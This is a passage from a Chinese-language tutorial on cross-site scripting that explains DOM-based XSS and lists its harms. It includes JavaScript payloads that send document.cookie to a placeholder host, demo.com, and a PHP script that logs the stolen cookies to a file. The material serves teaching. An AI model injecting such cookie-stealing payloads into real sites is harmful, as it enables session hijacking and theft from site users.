 ```php
}

?>
```



#### DOM型XSS

DOM型XSS也是反射型的一种，不过比较特殊。它不会和服务器发生交互，它通过修改页面的DOM节点来形成XSS漏洞。我们可以通js脚本DOM进行编辑从而修改页面的元素。也就是说，客户端的脚本可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。

demo:

```javascript
<script> 
    var img=document.createElement("img");
	img.src="http://demo.com/cookie?"+escape(document.cookie);
</script>
```



### XSS危害

* Cookie盗取

  服务器端脚本：

  ```php
  #http://demo.com/xss_cookie.php
  <?php
      $cookie = $_GET['cookie'];
  	$log = fopen("cookie.txt","a");
  	fwrite($log, $cookie."\n")
      fclose($log);
  ?>
  ```

  在存在XSS漏洞的地方插入下面的代码:

  ```javascript
  <script>
  var img = document.createElement("img");
  img.src = "http://demo.com/xss_cookie.php?cookie="+escape(document.cookie);
  </script>
  ```

* 钓鱼（伪造登录框页面）

* 获取内网IP段

  参考这篇文章 https://toutiao.io/posts/8urlis/preview 

* 站点重定向

* 获取客户端页面信息

* XSS蠕虫
